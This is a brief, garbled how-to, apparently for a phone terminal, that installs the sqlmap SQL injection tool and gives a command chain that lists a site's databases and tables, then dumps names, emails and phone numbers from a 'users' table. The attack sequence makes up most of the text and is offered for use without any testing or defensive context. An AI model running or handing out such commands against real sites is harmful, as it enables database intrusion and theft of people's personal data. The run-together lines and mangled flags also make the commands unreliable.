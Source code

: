 # sqlmap
apt update apt install python apt install python2 apt install git git clone https://github.com/sqlmapproject/sqlmap cd sqlmap Python2 sqlmap.py ______ Exemple Python2 sqlmap.py -u website –dbs -D acuart –tables -D acuart -T users –columns -D acuart -T users -C name,email,phone -dump
